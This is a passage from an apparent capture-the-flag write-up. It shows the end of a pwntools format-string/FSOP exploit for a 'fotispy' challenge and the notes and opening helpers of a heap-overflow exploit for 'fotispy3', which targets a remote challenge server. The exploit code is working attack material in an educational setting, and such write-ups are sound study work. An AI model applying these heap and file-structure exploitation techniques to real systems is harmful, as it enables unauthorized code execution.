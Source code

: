 ```py
    if i == 0:
        val -= 0x20
        if val <= 0:
            val += 0x100
    else:
        val -= fake_io[i-1]
        if val <= 0:
            val += 0x100
    payload += "%{}c%{}$hhn".format(val, start_idx + i)

payload = payload.ljust(0x60, "a")
payload = payload.encode("latin-1")
for i in range(6):
    payload += p64(io_list_all + i)

add_song(payload, fake_io_file, b"c"*0x10 + b"\n")
# gdb.attach(p)
# pause()
show()
exit_proc()
p.interactive()
```

## fotispy3

Done in around 3 hrs. (But wakatime shows 4 hrs including the time I was playing Honkai: Star Rail XD)

not hard heap chal. It gives a heap overflow read/write. We can leak heap address directly. 

Also it can allocate a FILE structure on heap. It contains libc-related pointers, so we can leak libc address from there.

Moreover, it gives us permission to create a file in the `/code` dir, write to it and read from it. The read value can overflow into the bss section and cover the pointer that points to where the heap pointers are stored. So we have arbitrary read/write.

I played FSOP after the arbitrary read/write.

```py
from pwn import *
context(log_level = 'debug', arch = "amd64", os = "linux")
# p = process("fotispy1")
# p = process("./fotispy3")
p = remote("52.59.124.14", 5193)
libc = ELF("./libc.so.6")

libc_leak = 0
def register(name, passwd):
    p.recvuntil("Please enter your choice [7]: ")
    p.sendline("0")
    p.recvuntil("Please enter a username: ")
    p.sendline(name)
    p.recvuntil("Please enter a password: ")
    p.sendline(passwd)

def login(name, passwd):
    p.recvuntil("Please enter your choice [7]: ")
    p.sendline("1")
    p.recvuntil("Please enter a username: ")
    p.sendline(name)
    p.recvuntil("Please enter a password: ")
    p.sendline(passwd)


```